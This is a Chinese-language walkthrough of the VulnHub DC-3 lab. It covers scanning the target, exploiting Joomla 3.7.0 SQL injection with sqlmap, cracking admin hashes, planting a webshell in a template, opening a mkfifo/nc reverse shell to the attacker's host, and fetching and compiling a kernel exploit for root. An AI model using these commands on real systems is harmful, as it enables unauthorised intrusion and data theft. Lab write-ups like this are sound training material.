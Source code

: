 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: DC3-Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2021-09-24
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - vulnhub
  - DC3
comment: false
typora-root-url: ..\..\..\..\.vuepress\public

---
```


## 0x01 部署

靶机地址：

><https://www.vulnhub.com/entry/dc-3,312/>

## DESCRIPTION

DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).

If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.

只有一个flag

## 0x02 信息收集

靶机使用virtual box部署，kali使用vmware部署，都为桥接模式

nmap扫描网段

```
nmap -sP 172.21.34.0/24
```

![image-20210924101423240](/assets/img/image-20210924101423240.png)

发现靶机IP：172.21.34.31，继续扫描

```
nmap -T5 -A -v -p- 172.21.34.31
```

结果：

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-24 10:04 CST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating ARP Ping Scan at 10:04
Scanning 172.21.34.31 [1 port]
Completed ARP Ping Scan at 10:04, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:04
Completed Parallel DNS resolution of 1 host. at 10:04, 0.00s elapsed
Initiating SYN Stealth Scan at 10:04
Scanning 172.21.34.31 [65535 ports]
Discovered open port 80/tcp on 172.21.34.31
Completed SYN Stealth Scan at 10:04, 1.27s elapsed (65535 total ports)
Initiating Service scan at 10:04
Scanning 1 service on 172.21.34.31
Completed Service scan at 10:04, 11.06s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 172.21.34.31
NSE: Script scanning 172.21.34.31.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.41s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.04s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Nmap scan report for 172.21.34.31
Host is up (0.00072s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
MAC Address: 08:00:27:2E:55:BC (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.048 days (since Wed Mar 10 08:55:41 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.73 ms 172.21.34.31

NSE: Script Post-scanning.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.28 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

发现80端口，运行的Joomla

## 0x03 漏洞利用

使用msf查看Joomla版本为3.7.0

![image-20210924102654550](/assets/img/image-20210924102654550.png)

搜索Joomla 3.7.0版本漏洞

![image-20210924102850545](/assets/img/image-20210924102850545.png)

发现CVE-2017-8917 SQL注入漏洞： https://www.exploit-db.com/exploits/42033

上sqlmap

```txt
sqlmap -u "http://172.21.34.31/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T '#__users' -C username,password --dump
```

发现用户

![image-20210924103753282](/assets/img/image-20210924103753282.png)

使用john爆破，得到密码

![image-20210924104911090](/assets/img/image-20210924104911090.png)

在`http://172.21.34.31/administrator/index.php`登录，发现模板编辑功能，可以愉快的加马了，修改Beez3模板下index.php，加上一句话

![image-20210924111319969](/assets/img/image-20210924111319969.png)

修改完成后将Beez3模板设置为默认模板，使用蚁剑连接成功

![image-20210924111451058](/assets/img/image-20210924111451058.png)

![image-20210924111544587](/assets/img/image-20210924111544587.png)

先拿shell，kali上运行

```
nc -lvp 4444
```

因为靶机上是openbsd nc，不支持-e，所以使用以下命令反弹shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.141.134 4444 >/tmp/f
```

![image-20210924141311663](/assets/img/image-20210924141311663.png)

## 0x04 提权

查看当前目录下，未找到flag相关文件，考虑提权，根据ubuntu和内核版本搜索相关漏洞

```
searchsploit -w ubuntu 16.04 4.4
```

![image-20210924141536034](/assets/img/image-20210924141536034.png)

使用CVE-2016-4557：https://www.exploit-db.com/exploits/39772

kali下载EXP

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip  --no-check-certificate
```

启动web服务

```
python -m SimpleHTTPServer 8090
```

靶机下载，解压，编译运行

```
wget http://172.21.34.30:8090/39772.zip
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
sh compile.sh
./doubleput
```

提权成功获得root权限，在`/root/`下发现flag文件，获得flag

![image-20210924142338904](/assets/img/image-20210924142338904.png)
